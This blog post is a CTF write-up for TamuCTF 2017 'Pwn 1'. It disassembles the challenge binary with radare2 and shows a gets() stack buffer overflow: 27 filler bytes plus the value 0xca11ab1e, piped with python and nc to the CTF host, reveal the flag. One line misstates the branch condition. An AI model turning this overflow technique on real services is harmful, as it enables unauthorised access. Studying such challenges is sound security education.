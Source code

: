 ```yaml
---
author:
  email: tzaoh1@gmail.com
  github: https://github.com/tzaoh
  image:
  - /images/avatar-64x64.png
  name:
  - Tzaoh
cardbackground: 'white'
cardtitlecolor: 'orange'
post_categories:
- CTFs
date: 2017-05-27T18:56:18+02:00
description: a
tags:
- test
title: "TamuCTF 2017 - Pwn 1"
summary: "We are told that there is a binary running remotely and its code is available to download. Lets download and open it with r2."
cardthumbimage: "/assets/TamuCTF2017/title.png"
---
```


![Pwn1 Challenge Description](/assets/TamuCTF2017/pwn1/1-pwn1_description.png)

We are told that there is a binary running remotely and its code is available to download. Lets download and open it with r2.

```bash
$ wget https://ctf.tamu.edu/files/7e968d03d9caa11a2f4f2909bd3cabc9/pwn1
$ r2 -A pwn1
```

Now that the binary is opened, we need to analyze its content.

{{< highlight r2 "hl_lines=17 18" >}} 
[0x08048450]> afl
0x08048390    3 35           sym._init
0x080483d0    1 6            sym.imp.gets
0x080483e0    1 6            sym.imp._IO_getc
0x080483f0    1 6            sym.imp.puts
0x08048400    1 6            sym.imp.__libc_start_main
0x08048410    1 6            sym.imp.setvbuf
0x08048420    1 6            sym.imp.fopen
0x08048430    1 6            sym.imp.putchar
0x08048440    1 6            sub.__gmon_start___252_440
0x08048450    1 33           entry0
0x08048480    1 4            sym.__x86.get_pc_thunk.bx
0x08048490    4 43           sym.deregister_tm_clones
0x080484c0    4 53           sym.register_tm_clones
0x08048500    3 30           sym.__do_global_dtors_aux
0x08048520    4 43   -> 40   sym.frame_dummy
0x0804854b    4 103          sym.print_flag                                                             
0x080485b2    4 120          main                                                                       
0x08048630    4 93           sym.__libc_csu_init
0x08048690    1 2            sym.__libc_csu_fini
0x08048694    1 20           sym._fini

{{< /highlight >}}

Interesting, there is `print_flag` function at `0x0804854b`. Lets see what's inside.

{{< highlight r2 "hl_lines=17 18" >}}
[0x08048450]> s sym.print_flag
[0x0804854b]> pdf 
┌ (fcn) sym.print_flag 103
│   sym.print_flag ();
│           ; var int local_dh @ ebp-0xd
│           ; var int local_ch @ ebp-0xc
│              ; CALL XREF from 0x08048606 (main)
│           0x0804854b      55             push ebp
│           0x0804854c      89e5           ebp = esp
│           0x0804854e      83ec18         esp -= 0x18
│           0x08048551      83ec0c         esp -= 0xc
│           0x08048554      68b0860408     push str.How_did_you_figure_out_my_secret__
│           0x08048559      e892feffff     sym.imp.puts ()
│           0x0804855e      83c410         esp += 0x10
│           0x08048561      83ec08         esp -= 8
│           0x08048564      68d3860408     push 0x80486d3
│           0x08048569      68d5860408     push str.flag.txt                                           
│           0x0804856e      e8adfeffff     sym.imp.fopen ()                                            
│           0x08048573      83c410         esp += 0x10
│           0x08048576      8945f4         dword [local_ch] = eax
│       ┌─< 0x08048579      eb10           goto 0x804858b
│       │      ; JMP XREF from 0x080485a0 (sym.print_flag)
│      ┌──> 0x0804857b      0fbe45f3       eax = byte [local_dh]
│      |│   0x0804857f      83ec0c         esp -= 0xc
│      |│   0x08048582      50             push eax
│      |│   0x08048583      e8a8feffff     sym.imp.putchar ()
│      |│   0x08048588      83c410         esp += 0x10
│      ↑│      ; JMP XREF from 0x08048579 (sym.print_flag)
│      |└─> 0x0804858b      83ec0c         esp -= 0xc
│      |    0x0804858e      ff75f4         push dword [local_ch]
│      |    0x08048591      e84afeffff     sym.imp._IO_getc ()
│      |    0x08048596      83c410         esp += 0x10
│      |    0x08048599      8845f3         byte [local_dh] = al
│      |    0x0804859c      807df3ff       var = byte [local_dh] - 0xff
│      └──< 0x080485a0      75d9           if (var) goto 0x804857b
│           0x080485a2      83ec0c         esp -= 0xc
│           0x080485a5      6a0a           push 0xa
│           0x080485a7      e884feffff     sym.imp.putchar ()
│           0x080485ac      83c410         esp += 0x10
│           0x080485af      90             
└           0x080485b0      c9             
{{< /highlight >}}

Because of the offsets `0x08048569` and `0x0804856e`, we can deduce that the function opens a file called `flag.txt` and prints its content. Fantastic :v: , so we just need to know who will call `print_flag`. This can be figured out through the `axt` command of r2 which stands for "cross reference to" the current function.

```r2
[0x0804854b]> axt
call 0x8048606 call sym.print_flag in main
```

Cool, so this function will be called from offset `0x8048606` which belongs to `main` function. Lets see whats inside it.

{{< highlight r2 "hl_lines=30 31 32 34 35 36" >}}
[0x0804854b]> pdf @ main   
            ;-- main:
┌ (fcn) main 120
│   main ();
│           ; var int local_27h @ ebp-0x27
│           ; var int local_ch @ ebp-0xc
│           ; var int local_4h_2 @ ebp-0x4
│           ; var int local_4h @ esp+0x4
│              ; DATA XREF from 0x08048467 (entry0)
│           0x080485b2      8d4c2404       ecx = [local_4h]
│           0x080485b6      83e4f0         esp &= 0xfffffff0
│           0x080485b9      ff71fc         push dword [ecx - 4]
│           0x080485bc      55             push ebp
│           0x080485bd      89e5           ebp = esp
│           0x080485bf      51             push ecx
│           0x080485c0      83ec24         esp -= 0x24
│           0x080485c3      a130a00408     eax = dword obj.stdout
│           0x080485c8      6a00           push 0
│           0x080485ca      6a00           push 0
│           0x080485cc      6a02           push 2
│           0x080485ce      50             push eax
│           0x080485cf      e83cfeffff     sym.imp.setvbuf ()
│           0x080485d4      83c410         esp += 0x10
│           0x080485d7      83ec0c         esp -= 0xc
│           0x080485da      68de860408     push str.Enter_the_secret_word:
│           0x080485df      e80cfeffff     sym.imp.puts ()
│           0x080485e4      83c410         esp += 0x10
│           0x080485e7      c745f4000000.  dword [local_ch] = 0
│           0x080485ee      83ec0c         esp -= 0xc
│           0x080485f1      8d45d9         eax = [local_27h]                                           
│           0x080485f4      50             push eax                                                    
│           0x080485f5      e8d6fdffff     sym.imp.gets ()                                             
│           0x080485fa      83c410         esp += 0x10
│           0x080485fd      817df41eab11.  var = dword [local_ch] - 0xca11ab1e                         
│       ┌─< 0x08048604      7507           if (var) goto 0x804860d                                     
│       │   0x08048606      e840ffffff     sym.print_flag ()                                           
│      ┌──< 0x0804860b      eb10           goto 0x804861d
│      ││      ; JMP XREF from 0x08048604 (main)
│      │└─> 0x0804860d      83ec0c         esp -= 0xc
│      │    0x08048610      68f5860408     push str.That_is_not_the_secret_word_
│      │    0x08048615      e8d6fdffff     sym.imp.puts ()             ; int puts(const char *s)
│      │    0x0804861a      83c410         esp += 0x10
│      │       ; JMP XREF from 0x0804860b (main)
│      └──> 0x0804861d      b800000000     eax = 0
│           0x08048622      8b4dfc         ecx = dword [local_4h_2]
│           0x08048625      c9             
│           0x08048626      8d61fc         esp = [ecx - 4]
└           0x08048629      c3             
{{< /highlight >}}



We see that `print_flag` will be called if the condition `local_ch == 0xca11ab1e` is not satisfied. But wait a moment, if we give a closer look to the assembly instrucctions we realized that the only variable we are supposed to edit is `local_27h` through the `gets` function.

So what we need to do? As maybe you know, `gets` is an unsecure function, because it does not check how many characters it must copy in memory when you introduce them. Then, if we input more characters than it is supposed to store, we will be able to overwrite neighbor local variables!

How can we know the length of the string we must provide? By knowing where the variables are stored onto the stack

![Pwn1 Stack diagram](/assets/TamuCTF2017/pwn1/5-pwn1_stack_view.png)

So finally, how many bytes do we need to start writting `local_ch`?
Easy!

`($ebp - 0xC) - ($ebp - 0x27)  = 0x27 - 0xC = 0x1B = 27d` 27 Characters.

```bash
$ python -c 'print("A"*27 + "\x1E\xAB\x11\xCA")' | nc pwn.ctf.tamu.edu 4322
Enter the secret word:
How did you figure out my secret?!
gigem{T00_435Y}
```

Answer: gigem{T00_435Y}

### Complete video

<a href="https://asciinema.org/a/2juhmtxkdf7qrnzbury7rzzjc?autoplay=1"><img src="https://asciinema.org/a/2juhmtxkdf7qrnzbury7rzzjc.png" width="400"/></a>

### Tools used:

 * [radare2](https://github.com/radare/radare2) - To analyze the binary.
 * [draw.io](https://www.draw.io/) - To draw some graphics.
 * [asciinema](https://asciinema.org) - To record the session.
